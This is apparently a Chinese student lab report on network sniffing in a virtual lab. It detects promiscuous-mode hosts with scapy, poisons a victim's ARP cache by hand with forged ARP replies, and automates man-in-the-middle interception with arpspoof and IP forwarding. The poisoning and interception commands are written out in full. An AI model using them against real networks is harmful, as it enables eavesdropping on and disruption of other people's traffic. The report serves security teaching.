# 网络监听实验

## 网络拓扑



## 实验准备

安装`scapy`



**对kali-attacker的网络设置进行修改，使三台计算机处于同一局域网内。**

## 实验内容

### 实验一：检测局域网中的异常终端

1. 用`ip link show [网卡名称]`命令检查受害者主机上网卡的「混杂模式」是否启用。



2. 在攻击者主机上启动scapy，用`pkt = promiscping("172.16.111.147")`尝试嗅探是否存在异常终端。由于混杂模式默认关闭，所以是没有返回包。



3. 通过`sudo ip link set eth0 promisc on`手动开启网卡的混杂模式，再用`ip link show eth0`就能发现输出结果里多出来了`PROMISC`。



4. 这时再在攻击者主机上输入`pkt = promiscping("172.16.111.147")`，可以看到接受到了靶机的回复。



### 实验二：手工单步“毒化”目标主机的 ARP 缓存

1. 首先在scapy中构造一个arp请求`arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`，可以用`arpbroadcast.show()`命令来查看。



2. 用`recved = srp(arpbroadcast, timeout=2)`发送这个请求，再通过`gw_mac = recved[0][0][1].hwsrc`来获取网关的mac地址。



3. 用`arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.147", hwdst="08:00:27:21:8e:0e")`来伪造一个从网关发送给受害者的ARP请求，而其中包含的网关的mac地址则被篡改为了攻击者的mac地址。再用`send(arpspoofed)`发送出去。



4. 这时用`ip neigh`在受害者主机上查看arp缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址。



5. 回到攻击者主机上的 scapy 交互式终端继续执行命令：

```
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:85:73:ce", pdst="172.16.111.147", hwdst="08:00:27:e0:45:e0")
sendp(restorepkt1, count=100, inter=0.2)
```

- 此时在受害者主机上用`ping 172.16.111.1`准备“刷新”网关 ARP 记录。再用`ip neigh`命令查看，发现arp已恢复。



### 实验三：使用自动化工具完成 ARP 投毒劫持实验

1. 使用`arpspoof`工具，用`sudo arpspoof -i eth0 -t 172.16.111.147 172.16.111.1`即可自动化完成arp投毒劫持。此时会看到受害者主机无法访问网络。



2. 在root权限下可以用`echo 1 > /proc/sys/net/ipv4/ip_forward`开启ipv4转发，以此方式我们可以在保持受害者主机可以联网的同时在攻击者主机上对其进行监控。



3. 将工具关闭后，可以看到受害者主机的网络连接恢复了正常。



## 实验中遇到的问题和解决方法

1. scapy执行`pkt = promiscping("172.16.111.147")`时提示权限不足。



- 在运行scapy时加上sudo即可。

2. 实验二发送ARP广播请求后没有回复。



- 尝试使用了另一块网卡进行通信，结果却变得很混乱。



- 最后发现是对attacker的网卡设置时出现了错误，在内部网络之外还错误地加入了NAT网络，将其关闭后问题得到了解决。

3. 使用`sendp(arpspoofed)`发送的包没有得到相应。



- 通过观看视频得知应该使用`send`命令。